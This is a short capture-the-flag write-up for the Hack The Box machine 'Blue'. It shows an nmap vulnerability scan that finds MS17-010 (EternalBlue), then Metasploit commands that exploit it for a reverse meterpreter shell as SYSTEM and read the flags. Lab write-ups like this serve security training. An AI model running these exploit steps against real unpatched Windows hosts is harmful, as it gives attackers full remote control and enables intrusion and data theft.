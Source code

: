 +++ 
title = "Blue HTB Write up"
description = "Write up for the HTB machine 'Blue'"
author = "greatmoves"
tags=["CVE-2017-0143", "metasploit", "hackthebox", "eternalblue", "easy"]
date = 2023-05-04
+++

# 1. Inital recon

## 1.1. nmap
We can guess by the name of the room 'Blue' that this machine might be vulnerable to `CVE-2017-0143`, but let's just run an nmap scan to double check

`nmap --script vuln 10.10.10.40`

```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
```

# 2. user.txt and root.txt

## 2.1. metasploit

In `msfconsole` run the following commands to get the eternal blue exploit running
```
search CVE-2017-0143
use 0
set rhosts 10.10.10.40
set lhosts YOUR_IP
exploit
```
once you have a meterpreter shell run `shell` then `whoami` to confirm we are `nt authority\system`

Our user flag can be found at `C:\Users\haris\Desktop` and read using `type "user.txt"`

Our root flag can be found at `:\Users\Administrator\Desktop` and read using `type "root.txt"`